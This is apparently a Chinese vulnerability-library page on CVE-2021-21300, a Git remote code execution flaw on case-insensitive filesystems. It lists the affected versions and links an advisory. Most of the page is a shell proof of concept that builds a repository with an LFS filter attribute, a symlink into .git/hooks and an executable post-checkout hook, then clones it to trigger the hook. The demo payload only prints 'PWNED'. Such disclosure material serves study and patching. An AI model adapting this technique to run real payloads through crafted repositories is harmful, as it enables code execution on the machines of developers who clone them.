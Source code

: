 ```yaml
---
title: Git for Visual Studio远程执行代码漏洞 CVE-2021-21300
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 服务器应用漏洞
 - Git
---
```


# Git for Visual Studio远程执行代码漏洞 CVE-2021-21300

## 漏洞描述

此漏洞影响具有不区分大小写的文件系统的平台，当某些过滤器被使用时（例如Git LFS）。Git可能会被欺骗运行克隆期间的远程代码。

## 漏洞影响

> [!NOTE]
>
> v2.17.6，v2.18.5，v2.19.6，v2.20.5，v2.21.4，
> v2.22.5，v2.23.4，v2.24.4，v2.25.5，v2.26.3，v2.27.1，v2.28.1，v2.29.3，
> v2.30.2。

## 漏洞复现

暂无复现

参考文章: https://www.openwall.com/lists/oss-security/2021/03/09/3

## 漏洞利用POC

```sh
#!/bin/sh

git init delayed-checkout &&
(
  cd delayed-checkout &&
  echo "A/post-checkout filter=lfs diff=lfs merge=lfs" \
  	>.gitattributes &&
  mkdir A &&
  printf '#!/bin/sh\n\necho PWNED >&2\n' >A/post-checkout &&
  chmod +x A/post-checkout &&
  >A/a &&
  >A/b &&
  git add -A &&
  rm -rf A &&
  ln -s .git/hooks a &&
  git add a &&
  git commit -m initial
) &&
git clone delayed-checkout cloned
```

